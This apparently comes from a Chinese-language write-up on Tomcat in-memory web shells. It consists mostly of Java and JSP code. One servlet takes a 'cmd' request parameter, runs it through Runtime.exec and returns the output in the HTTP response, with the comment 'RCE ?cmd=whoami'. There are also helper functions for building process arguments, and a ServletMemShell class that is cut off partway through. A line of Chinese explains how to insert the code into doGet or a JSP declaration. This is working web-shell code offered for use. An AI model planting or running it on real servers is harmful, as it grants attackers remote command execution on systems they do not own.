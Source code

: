 ```java
//            servletResponse.getOutputStream().close();
//            return;

//RCE ?cmd=whoami
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }

//辅助函数
		byte[] toCString(String s) {
        if (s == null) {
            return null;
        }
        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }
    private static byte[] getArgBlock(String[] cmdarray){
        byte[][] args = new byte[cmdarray.length-1][];
        int size = args.length;
        for (int i = 0; i < args.length; i++) {
            args[i] = cmdarray[i+1].getBytes();
            size += args[i].length;
        }
        byte[] argBlock = new byte[size];
        int i = 0;
        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }
        return argBlock;
    }
```

插入到doGet里即可，jsp用`<%! %>`声明类

```java
<%!
    public class ServletMemShell extends HttpServlet {
        private String message;

        public void init() {
            message = "Hello World!";
        }

        public void doGet(HttpServletRequest servletRequest, HttpServletResponse servletResponse) throws IOException {
            System.out.println(
                    "TomcatShellInject doFilter.....................................................................");
            String cmdParamName = "cmd";
            String cmd;
```